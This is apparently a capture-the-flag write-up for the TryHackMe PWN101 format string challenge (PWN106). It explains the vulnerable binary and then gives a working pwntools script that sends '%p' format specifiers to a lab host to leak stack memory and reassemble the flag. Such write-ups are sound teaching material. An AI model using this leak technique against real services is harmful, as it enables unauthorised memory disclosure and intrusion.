





**THM - PWN101 - Format String (PWN106)**


## **Gathering information**

### **Binary behaviour**

Binary takes input user and displays it (if you look at the screen below, you can see some strange behaviour when we provided `%f` - we can suspect that binary is vulnerable to format string attack).





### **File protections**





Well, binary has a good protection, so performing buffer overflow attack can be really hard or impossible.


## **Reversing binary**





At line 16th we can see that there is no input validation and the program prints whatever we want - that can be leveraged to perform *format string attack*. Now, we can look for some interesting strings to do that we can use `izz` in `radere2`.





### **Exploitation (Proof Of Concept)**

```python
from pwn import *

# Receiving content

process = remote('10.10.165.139','9006')
process.recv()
process.sendline("%6$p %7$p %8$p %9$p %10$p %11$p")
content = process.recvline_contains("Thanks", timeout=2)

print("[*] Got a content:\n")
print(content)

# Building flag from content

flag = re.search(r"(0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+)$", content.decode(), re.IGNORECASE)

flag_groups = (
    int(flag.group(1),16),
    int(flag.group(2),16),
    int(flag.group(3),16),
    int(flag.group(4),16),
    int(flag.group(5),16),
    int(flag.group(6),16),
)

final_flag = ""

for g in flag_groups:
    for i in range(8):
        final_flag += (chr(g >> (i * 8) & 0xff))

print(final_flag)
```





We successfully expolited format string vulnerability and we got our flag.
